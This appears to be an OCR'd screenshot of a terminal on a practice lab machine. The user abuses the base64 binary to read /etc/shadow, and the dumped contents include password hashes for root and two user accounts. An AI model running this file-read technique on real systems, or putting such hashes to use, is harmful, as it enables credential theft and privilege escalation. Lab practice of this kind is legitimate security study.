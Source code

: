 [leonard@ip-10-10-209-223 ~]$ LFILE=/etc/shadow
[leonard@ip-10-10-209-223 ~]$ /usr/bin/base64 "$LFILE" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
